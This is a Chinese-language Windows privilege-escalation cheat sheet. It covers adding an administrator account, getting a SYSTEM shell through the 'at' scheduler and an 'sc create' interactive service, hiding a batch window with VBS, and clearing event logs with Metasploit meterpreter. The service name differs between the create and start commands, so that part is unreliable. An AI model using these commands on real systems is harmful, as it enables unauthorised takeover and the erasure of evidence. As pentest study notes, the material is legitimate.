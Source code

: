 提权可分为纵向提权与横向提权：纵向提权：低权限角色获得高权限角色的权限；横向提权：获取同级别角色的权限。



Windows常用的提权方法有：
系统内核溢出漏洞提权、数据库提权、错误的系统配置提权、组策略首选项提权、WEB中间件漏洞提权、DLL劫持提权、滥用高危权限令牌提权、第三方软件/服务提权等



#### 基础提权命令

```
0.mstsc #打开windows远程登录工具
1.query user #查看用户登录情况
2.net user #查看系统用户情况
3.net user username password /add  #添加用户
4.net localgroup Administrators username /add  #将用户添加到管理员组
5.whoami #查看当前用户权限
6.tasklist #查看运行的进程的pid 配合grep使用
7.taskkill /im 映像名称.exe /f #强制结束指定进程
8.systeminfo #查看系统版本与补丁情况
```

```
#rdesktop是linux上得远程桌面工具
rdesktop ip
#然后yes

```









#### cmd命令大全



```
move 移动文件
copy 复制文件
type 查看文本
echo %cd% 查看当前目录
rename 该文件名
taskkill /im 程序 /f 
del /f /q file 删除文件
```







#### at计划任务

```
at 是一个发布定时任务计划的命令行工具，语法比较简单。通过 at 命令发布的定时任务计划， Windows 默认以 SYSTEM 权限运行。定时任务计划可以是批处理、可以是一个二进制文件。

Copy
语法：at 时间 命令
例子：at 10:45PM calc.exe
该命令会发布一个定时任务计划，在每日的 10:45 启动 calc.exe。我们可以通过 “/interactive”开启界面交互模式：

```

####  sc命令提权

关于sc命令： SC 是用于与服务控制管理器和服务进行通信的命令行程序。提供的功能类似于“控制面板”中“管理工具”项中的“服务”。

```
Copysc Create syscmd binPath= "cmd /K start" type= own type= interact
```

这个命令的意思是创建一个名叫 syscmd 的新的交互式的 cmd 服务，然后执行以下命令，就得到了一个system权限的cmd环境：

```
Copysc start systcmd
```

##### vbs 设置取消这个bat黑窗

```
set ws=WScript.CreateObject("WScript.Shell")
ws.Run "C:\abc\script.bat /start",0
```

#### 清理日志

```
工具：Metasploit

为了实现这个目的，我们需要通过事件管理器模块清除事件日志。

这里，假设经过一系列的渗透测试已经获取了system权限的meterpreter，以下命令在meterpreter命令行下执行:

1.查看事件日志
run event_manager -i
2.删除事件日志
run event_manager -c
或者在meterpreter命令行中输入clearv命令清除目标系统的事件日志。
```

